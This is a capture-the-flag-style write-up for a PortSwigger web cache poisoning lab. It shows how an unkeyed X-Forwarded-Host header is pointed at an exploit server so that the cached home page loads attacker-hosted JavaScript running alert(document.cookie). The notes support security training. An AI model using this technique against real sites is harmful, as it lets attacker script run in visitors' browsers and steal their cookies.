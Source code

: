 ```yaml
---
description: https://portswigger.net/web-security/web-cache-poisoning
---
```


# Web cache poisoning

### Lab: Web cache poisoning with an unkeyed header

This lab is vulnerable to web cache poisoning because it handles input from an unkeyed header in an unsafe way. A user visits the home page roughly once every minute. To solve this lab, poison the cache with a response that executes alert(document.cookie) in the visitor's browser.

```
GET /?cb=123 HTTP/1.1
...
X-Forwarded-Host: test

In response:
Cache-Control: max-age=30
Age: 0
X-Cache: miss
       <script type="text/javascript" src="//test/resources/js/tracking.js">
```

If we repeat the request, we can see this in response header:

```
Cache-Control: max-age=30
Age: 15
X-Cache: hit
```

30 seconds to reset cache.

**Exploit Server ->**

```
File:
	/resources/js/tracking.js
Body:
	alert(document.cookie)
```

**Solution:**

```
GET / HTTP/1.1
...
X-Forwarded-Host: exploit-ac6c1f561f6c1240c03440c7017d0033.web-security-academy.net

In response:
X-Cache: miss
<script type="text/javascript" src="//exploit-ac6c1f561f6c1240c03440c7017d0033.web-security-academy.net/resources/js/tracking.js">
```
